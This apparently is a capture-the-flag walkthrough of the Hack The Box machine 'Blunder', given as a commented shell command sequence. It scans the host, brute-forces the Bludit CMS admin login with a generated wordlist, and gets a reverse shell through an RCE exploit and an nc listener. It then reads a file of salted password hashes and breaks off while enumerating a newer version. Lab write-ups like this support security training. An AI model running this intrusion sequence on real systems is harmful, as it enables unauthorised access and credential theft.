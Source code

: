 # Blunder - Easy

```shell
sudo vim /etc/hosts
#add blunder.htb

nmap -T4 -p- -A -Pn -v blunder.htb

gobuster dir -u http://blunder.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml -t 50

searchsploit bludit

#get exploit from Exploit DB

cewl http://blunder.htb -d 3 -w bludit-pass.txt -m 5 -v
#generate wordlist using cewl

vim bludit-usernames.txt
#usernames - admin and fergus

python3 bludit-brute-bypass.py -l http://blunder.htb/admin/login -u ~/bludit-users.txt -p ~/bludit-pass.txt
#gives valid creds

#get bludit rce exploit
#modify it
vim bludit-rce.py

nc -nvlp 443

#run exploit
python3 bludit-rce.py
#this gives us reverse shell

#stabilize reverse shell
export TERM=xterm

#Ctrl+Z to background shell
stty raw -echo; fg
#Enter twice to use reverse shell

id
#www-data

ls -la /

ls -la /ftp
#this contains a note and config files
#go through these files

ls -la /var/www

ls -la /var/www/bludit-3.9.2
#enumerate through files

cat /var/www/bludit-3.9.2/bl-content/databases/users.php
#contains salted hashes
#cannot be cracked

ls -la /var/www/bludit-3.10.0a
#enumerate newer version

```